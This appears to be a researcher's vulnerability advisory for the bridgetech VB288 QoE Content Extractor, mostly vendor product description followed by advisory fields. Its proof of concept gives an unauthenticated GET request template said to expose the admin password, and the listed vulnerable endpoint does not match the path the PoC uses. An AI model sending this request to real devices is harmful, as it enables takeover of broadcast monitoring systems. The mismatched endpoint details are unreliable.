 # bridgetech VB288 Objective QoE Content Extractor Information Disclosure Vulnerability

## Too lazy to write details, so here’s the description of the device from the vendor’s website
---
## Description

The VB288 is a software-only solution from Bridge Technologies that runs on standard, off-the-shelf server hardware. It was specifically designed to monitor video and audio quality across multiple broadcast streams, using Objective Quality of Experience (QoE) metrics rather than subjective scoring systems like MOS (Mean Opinion Score).

Bridge Technologies is a Norwegian company based in Oslo that specializes in advanced monitoring, analysis, and quality assurance systems for digital media and telecommunications. Their solutions ensure high service quality across broadcast, cable, satellite, OTT, IPTV, and home networks, safeguarding content delivery for over 1.2 billion subscribers and thousands of channels worldwide
## Who Uses These Devices?

These solutions are primarily used by:

Broadcast and media companies (TV stations) operating studios,professional streamers, head-ends, and remote production environments.

Telecom, cable, satellite, and OTT providers ensuring service quality across networks.

Network engineers and QA teams needing real-time and historic insight into media delivery.

Remote production and field engineers deploying NOMAD in dynamic environments.

Large-scale operations managing many probes centrally via the VBC server.

---

## Vendor Information
- **Vendor:** bridgetech
- **Vendor Homepage:** [https://bridgetech.tv/](https://bridgetech.tv/)

---

## Affected Products
- **Product:** bridgetech VB288 Objective QoE Content Extractor


- **Built Version:** Jul 1 2025 12:43:42
- **Firmware Version:**  5.6.0-8

---

## Vulnerable Endpoints
- `/vbc/data/rdplist`  


---

## Attack Type
- **Type:** Information Disclosure  
- **Classification:** Improper Authorization  

---

## Impact
**Severity:** High  
---
## Attack Vector
- **Access Method:** Remote, over HTTP  
- **Authentication Requirement:** None (unauthenticated)  
- **Exploit Complexity:** Low (simple HTTP requests)  

---

## Proof of Concept (PoC)
make a get requste for his endpoints

{target}/extractor/core/setup/passwd?Change=1&=&passwd2=slvisolp&submitflash=OK&secs=1756630638395


this will show you the admin password


---

## PoC Video


https://github.com/user-attachments/assets/f678a8af-fe20-445b-9aec-7b53fff45959
